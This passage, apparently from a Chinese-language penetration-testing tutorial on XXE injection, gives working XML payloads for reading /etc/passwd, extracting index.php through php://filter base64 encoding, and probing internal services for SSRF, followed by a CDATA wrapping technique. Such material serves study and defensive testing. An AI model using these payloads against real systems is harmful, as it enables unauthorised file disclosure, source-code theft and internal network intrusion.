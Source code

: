 



## <mark style="color:red;">**2. 測試Payload**</mark>



#### **🔹 讀取伺服器上的敏感文件**

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
<email>
  &company;
</email>
```

* **目標**：讀取Linux系統的`/etc/passwd`，如果成功，代表伺服器允許訪問本地文件系統。
* **應對方式**：如果無法回顯數據，嘗試`php://filter/`進行Base64編碼讀取。

#### **🔹 讀取應用程式代碼**

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
<email>
  &company;
</email>
```

* **目標**：以Base64格式讀取 `index.php`，然後手動解碼，分析應用的後端邏輯。

#### **🔹 進行內網探測**

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "http://internal-service.local/admin">
]>
<email>
  &company;
</email>
```

* **目標**：確認內網服務是否可訪問，進一步發動SSRF攻擊。

## <mark style="color:red;">3. 不符合 XML 格式</mark>

### ⭐ 問題背景：

當目標網站會返回 XML 響應，但**返回內容必須符合 XML 格式**時，如果我們直接插入外部實（例如檔案內容），裡面可能會有符號造成 XML 格式錯誤，這會導致回顯失敗。

#### **解決方法**：

用 `<![CDATA[ ]]>` 包裹檔案內容，使其被當成「純文本」處理，這樣就不怕 XML 格式被破壞。
